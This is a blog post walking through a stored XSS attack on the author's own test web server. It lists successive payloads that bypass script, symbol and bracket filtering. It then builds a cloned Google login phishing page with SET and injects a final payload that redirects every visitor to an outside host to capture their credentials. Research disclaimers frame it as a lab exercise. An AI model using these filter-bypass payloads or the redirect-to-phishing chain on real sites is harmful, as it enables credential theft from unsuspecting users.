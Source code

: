 ```yaml
---
layout: post
title: XSS Attack
date: 2022-03-17
Author: Ali
categories: This article is only used for cyber security research, please do not use it for improper purposes.
tags: [cyber security]
comments: true
---
```






### An XSS attack requires two conditions:

- #### Need to inject malicious code into web pages

- #### These malicious codes can be successfully executed by the browser



### ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠





## Attack Simulation Design



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image01.png){width="5.768055555555556in" height="3.0833333333333335in"}



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image02.png){width="5.768055555555556in" height="3.0833333333333335in"}



## Create WEB Server

#### In order to simulate the attack more intuitively, I chose to rent a windows 2019 in Azure to create a victim web server.

#### The specific steps will not be demonstrated, I believe everyone can do it.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image001.png){width="5.768055555555556in" height="3.0833333333333335in"}





## Step 1: Start testing your website for XSS attacks



### 😎First try😎



### Testing:

#### Try the simplest test code first 

<script>alert(/XSS/)</script>

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image002.png){width="5.768055555555556in" height="4.117361111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image003.png){width="5.400468066491689in" height="1.7501520122484688in"}





## Result :

#### The returned result shows that the write was successful and nothing happens on the web page.

#### F12 to view the code, it shows that the input content is filtered, the "script" tag is not executed on the web page, but is directly printed in the form of text.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image004.png){width="5.768055555555556in" height="1.511111111111111in"}













### 😎Second try😎



### Testing:

#### I want to test if the website has symbol filtering

%3cscript%3ealert(/XSS/)%3c/script%3e

#### HTML supports different encodings in many cases

####  like "<"  is equivalent to %3c and ">"  is equivalent to %3e.

#### This method can bypass some symbol filtering

![img ](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image006.png){width="5.768055555555556in" height="0.8555555555555555in"}





### Result :

#### From the results, < is not on the filter list.

#### An accident is that after several attempts, I found that although the web page did not filter" <>" but it filtered the brackets "()".



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image005.png){width="5.768055555555556in" height="2.6944444444444446in"}







### 😎Third try 😎



### Testing:

#### From the results of the first attempt, the input content will be passed in the form of text, indicating that the input content is limited to a tag, and the analysis code can also find that all our content is in the <u>**"td"**</u> tag.



#### Try closing the tab this time，We need add “Textarea” and “td” into our code.

```html
</textarea></td>%3cscr%3cscript%3eipt%3ealert(/XSS/)%3c/scr%3c/script%3eipt%3e
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image007.png){width="5.768055555555556in" height="3.9555555555555557in"}



### Result :

#### The code we entered appeared directly on the web page, which is a successful signal

#### This shows that the code is indeed executed.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image008.png){width="5.768055555555556in" height="0.9854166666666667in"}





### 😎Fourth try：😎

### Testing:

### In the third attempt, the code was successfully executed, but there was no pop-up window specific to XXS attacks. 

### My thinking this time is to append the "Body" closing tag,

#### 





```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>alert&#40/XSS/&#41\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image009.png){width="5.768055555555556in" height="2.571527777777778in"}





### Result :

#### The XSS attack was successful and the code was successfully executed. 

#### After successful execution of XSS, all users browsing this web will be affected.

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image010.png){width="5.768055555555556in" height="3.15625in"}







## Step 2: Build a phishing website via SET 

#### The hacker uses the latest Kali system, 

#### we can use the SET attack to quickly create a phishing web page, and any results entered on the phishing web page will be returned to the SET server.

#### This time I used google's login page directly

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image013.png){width="5.768055555555556in" height="4.236111111111111in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image015.png){width="5.768055555555556in" height="3.277083333333333in"}



#### After the phishing website is completed, we need to map the webpage to the public network so that everyone on the Internet can access the phishing website.



![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image016.png){width="5.768055555555556in" height="3.4756944444444446in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image017.png){width="5.768055555555556in" height="1.3784722222222223in"}







## Implant malicious code

   

#### Use window.location.href=\"https://fubxzk.39nat.com\"; instead of alert&#40/XSS/&#41\

#### The final malicious code is：

```html
</body\>\</textarea\>\</td\>\<svg\>\<script\>window.location.href=\"https://fubxzk.39nat.com\";\</script\>
```

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image020.png){width="5.768055555555556in" height="2.841666666666667in"}







#### If the user enters account information on the web page, the information will be sent directly to the SET server

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image021.png){width="5.768055555555556in" height="3.6444444444444444in"}

![img](https://raw.githubusercontent.com/AliChenggggg/blog/main/images/XSS2022/image022.png){width="5.768055555555556in" height="2.0368055555555555in"}



#### So far, An entire XSS attack is completed.

#### By the way,This is not my email address, and the password is also made up.

### and

# ⚠<u>**This article is only used for cyber security research, please do not use it for improper purposes.**</u>⚠



